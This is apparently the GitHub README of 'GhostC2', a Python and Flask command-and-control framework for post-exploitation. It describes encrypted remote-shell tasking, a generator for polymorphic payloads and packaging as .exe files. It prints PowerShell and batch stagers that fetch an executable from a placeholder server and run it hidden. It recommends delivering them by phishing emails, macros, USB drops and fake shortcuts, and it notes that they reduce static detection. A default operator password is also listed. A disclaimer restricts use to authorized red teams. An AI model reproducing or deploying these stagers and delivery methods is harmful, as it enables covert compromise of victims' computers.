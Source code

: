 # 👻 GhostC2

GhostC2 is a modular, encrypted, post-exploitation command-and-control (C2) framework built with Python and Flask. It features real-time WebSocket communication, polymorphic payload generation, operator authentication, and optional `.exe` packaging.

---

## 🚀 Features

- 🔐 AES-256 encrypted communication (symmetric)
- 🌐 Real-time bidirectional WebSocket tasking
- 🧠 Operator web console with live terminal view
- 🧬 Polymorphic payload generator with randomized variables
- 🖥️ Optional `.exe` compilation with PyInstaller
- 🛡️ Flask-Login based access control
- 🧾 SQLite-based task/result logging

---

## 📁 Project Structure

```
GhostC2/
├── builds/                 # Compiled payloads (.py, .exe)
├── output/                 # (Optional legacy output dir)
├── payloads/               # WebSocket and polling Python agents
│   └── ghost_socket_payload.py
├── server/
│   ├── app.py              # Main Flask + SocketIO server
│   └── templates/          # HTML templates for dashboard, console, login
├── tools/
│   └── generate_payload.py # Payload generator script
├── utils/
│   └── crypto.py           # AES encrypt/decrypt helpers
└── README.md
```

---

## ⚙️ Setup

### 1. Install dependencies
```bash
pip install flask flask-login flask-socketio eventlet pyinstaller
```

### 2. Run the server
```bash
cd server
python app.py
```

Visit [http://localhost:8080](http://localhost:8080)

**Login:**
```
Username: admin
Password: ghostpass123
```

---

## 👾 Payloads

### ✅ WebSocket Agent
```bash
python payloads/ghost_socket_payload.py
```

### 🧬 Generate Polymorphic Payload
```bash
python tools/generate_payload.py            # .py only
python tools/generate_payload.py --exe      # .py + .exe
```

Output saved to `builds/`

---

## 🖥️ Operator Console

- Live terminal view via `/console`
- Send commands to selected host
- Output streams back instantly via WebSocket

---

### 🎯 Stagers (Initial Access)

GhostC2 includes multiple **delivery stagers** in the `/stagers` directory, designed to fetch and execute the full agent from a remote server.

#### 🪖 PowerShell Stager (`payload_stager.ps1`)

Downloads and executes the payload from your GhostC2 host:

$payloadUrl = "http://your.server.ip/builds/ghost_payload.exe"
$localPath = "$env:TEMP\ghostsvc.exe"
Invoke-WebRequest -Uri $payloadUrl -OutFile $localPath -UseBasicParsing
Start-Process -FilePath $localPath -WindowStyle Hidden

yaml
Copy
Edit

Use in:
- Phishing emails
- Macros
- USB drops
- Post-exploit scripting

---

#### 🧱 Batch Stager (`payload_stager.bat`)

Simple `.bat` version for Windows:

@echo off
set PAYLOAD_URL=http://your.server.ip/builds/ghost_payload.exe
set PAYLOAD_PATH=%TEMP%\ghostsvc.exe

powershell -Command "Invoke-WebRequest -Uri '%PAYLOAD_URL%' -OutFile '%PAYLOAD_PATH%' -UseBasicParsing"
start "" "%PAYLOAD_PATH%"

yaml
Copy
Edit

Use in:
- `.zip` phishing drops
- Fake `.lnk` shortcut chains
- Legacy script execution

---

### 🔐 Reminder

These stagers **do not contain the payload directly**. They fetch the compiled GhostC2 `.exe` agent at runtime — minimizing static detection and enabling modular deployment.



---




## 🔐 Security Notes

- All beacon traffic is AES-256 encrypted
- WebSocket messages are encrypted client/server-side
- Operators must log in via Flask-Login (sessions stored securely)

---

## 🧪 Red Team Use Cases

| Scenario              | Usage                                    |
|----------------------|------------------------------------------|
| Post-exploitation    | Remote shell via encrypted WebSocket     |
| Payload generation   | Obfuscated `.py` or `.exe` files         |
| Operator dashboards  | Web UI for task/result review            |
| C2 simulations       | Train detection or analyze traffic       |

---

## ⚠️ Legal

GhostC2 is provided for **educational and authorized red team use only**. Do not deploy this tool in any environment without proper authorization.

---

## 🧠 Built by Edward Wolfgang

- GitHub: [@wolfwashere](https://github.com/wolfwashere)
- Project: GhostC2 v1.0

Feel free to fork, contribute, or adapt for your research lab, red team, or academic project.
